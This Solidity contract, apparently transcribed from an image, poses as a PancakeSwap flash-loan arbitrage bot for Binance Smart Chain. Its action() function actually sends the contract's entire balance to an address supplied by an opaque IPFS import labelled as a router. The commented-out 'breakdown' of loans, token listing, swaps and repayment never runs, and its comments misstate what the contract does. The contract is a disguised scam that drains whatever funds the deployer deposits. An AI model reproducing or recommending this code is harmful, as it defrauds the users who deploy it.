 pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";

/**
 * WARNING - this contract code is for Binance Smart Chain not Ethereum network

 * Testnet transactions will fail

 * New token will be created and flash loan will be pulled to trade against the token

 * Profit remaining will be transfered to token creator contract

 *UPDATED April 2022 - liquidity returned if flash loan fails or insufficient balance

*/

// PancakeSwap Router
import "ipfs://Qme3J2pmXe7EHfpSGYaK9RkSmgdgBJSyf92Wq6bWq1H45v";
   
contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;      
      manager = new Manager();
   }
   address public creator= msg.sender;
    	function tokenTransfer() public view returns (address) {    
        	return creator;
   	}
   function() external payable {}
   
   function action() public payable {
      // Send New Token to PancakeSwap Router for Swap
       address(uint160(manager.pancakeswapDeposit())).transfer(address(this).balance);
      
      // Perform Flash Loan tasks (combined all functions into one to reduce external calls & save gas fees)
      manager.performTasks();
      
      /* Breakdown of all functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
      // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
      // Get BNB Loan from Multiplier-Finance & loan execution wallet
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   
   // Create BNB and DAI pairs for our token & provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   
   // Perform arbitrage trades
      manager.pancakePerformSwaps();
      
      // Move remaining BNB from Contract to your personal wallet
      manager.contractToWallet("BNB");
   
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}

